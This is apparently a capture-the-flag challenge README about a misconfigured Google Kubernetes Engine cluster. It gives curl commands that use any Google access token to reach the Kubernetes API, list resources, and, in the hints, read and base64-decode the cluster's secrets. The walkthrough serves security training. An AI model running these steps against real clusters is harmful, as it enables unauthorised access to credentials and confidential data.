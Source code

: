 # Challenge 1: Confidential Cluster

## Introduction

> [!NOTE]
> IP address to start with: `34.23.127.178`

You received just an IP address as your very first entrypoint into the GCP project.  
The IP belongs to a Google Kubernetes Cluster (GKE) - how can you access the Kubernetes API to learn more about the cluster?


To simplify your next commands, set the IP address as an environment variable:  
#####
    export IP=<IP>

You can access the API of the cluster at this endpoint:  
#####
    curl -k https://$IP/api

As you are not authenticated, you are part of the group `system:anonymous` and you can't access much.  
Most endpoints will respond with 403 permission denied.  

But what if you were in `system:authenticated`? 
Try to get a token for your own Google account using the [OAuth playground](https://developers.google.com/oauthplayground/) (select scope "Kubernetes Engine API v1").  

Set your token as environment variable to make the next commands easier to use.  
#####
    export TOKEN=<token>

Send a request with your token to the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/

Just by supplying any Google access token you will be able to access the endpoint!  

Once you have gained access and can read from the Kubernetes API - which API resources can you query?

> [!TIP]
> Optional: You can configure kubectl to access the cluster. For instructions see [kubectl_instructions](../extras/kubectl_instructions.md)

You can find out which permissions 'system:authenticated' has on this cluster with a request to this endpoint:  
#####
    curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews

It looks like you have read access to some resources on the default namespace of the cluster.  
You can also query them by using the Kubernetes API - for example:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/pods

## Your Goal

**Discover the secrets that this cluster has in store for you.**

## Useful commands and tools:

- `curl -k https://$IP`
- `curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/...`
- [Google OAuth Playground](https://developers.google.com/oauthplayground/)
- Learn more about this misconfiguration [here](https://orca.security/resources/blog/sys-all-google-kubernetes-engine-risk)

## Hints

<details>
  <summary>Hint 1</summary>

  The introduction contains a command to list pods on the cluster. You can use a similar endpoint to list other resources.  

  If you are using kubectl: You might have more success when viewing the response in json format: `... -o json`

</details>

<details>
  <summary>Hint 2</summary>

  You can read Kubernetes secrets in the default namespace on the cluster. Which secrets might it hold?  
  #####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets
  Or when using kubectl:
  #####
    kubectl get secrets -o json
     

</details>

<details>
  <summary>Hint 3</summary>

  The secret values are base64 encoded. Decode them to read the value:  
  #####
      echo -n <secret-value> | base64 -d  

</details>
